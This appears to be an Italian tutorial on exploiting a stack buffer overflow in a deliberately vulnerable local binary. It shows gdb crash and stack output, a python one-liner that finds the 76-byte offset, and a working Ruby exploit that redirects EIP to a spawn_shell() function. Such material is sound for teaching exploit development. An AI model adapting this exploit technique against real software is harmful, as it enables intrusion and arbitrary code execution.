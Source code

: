 #### Analisi Crash

```gdb
(gdb) continue
Continuing.
Buffer address: 0xffffc780
spawn_shell() address: 0x8049196
Input: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA...
Copia completata nel buffer

Program received signal SIGSEGV, Segmentation fault.
0x41414141 in ?? ()
```

#### Esame Stack

```gdb
(gdb) x/20x $esp
0xffffc7d0:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffc7e0:     0x41414141      0x00000000      0x00000000      0xffffc810
```

### Determinazione Offset Preciso

```bash
./vulnerable "$(python3 -c "import sys; sys.stdout.buffer.write(b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBCCCC')")"
```

Se EIP diventa `0x43434343` ("CCCC"), l'offset è di **76 byte**.

## Exploit Ruby Funzionante

### Codice Exploit

```ruby
require 'open3'

binary = "./vulnerable"
spawn_shell_addr = 0x8049196
offset = 76

padding = "A" * 72
saved_ebp = "BBBB"
return_address = [spawn_shell_addr].pack("V")

payload = padding + saved_ebp + return_address

puts "Payload length: #{payload.length} bytes"
puts "Executing exploit..."

begin
  stdout, stderr, status = Open3.capture3(binary, payload)
  puts stdout
  puts stderr if !stderr.empty?
rescue => e
  puts "Error: #{e.message}"
end

system(binary, payload)
```
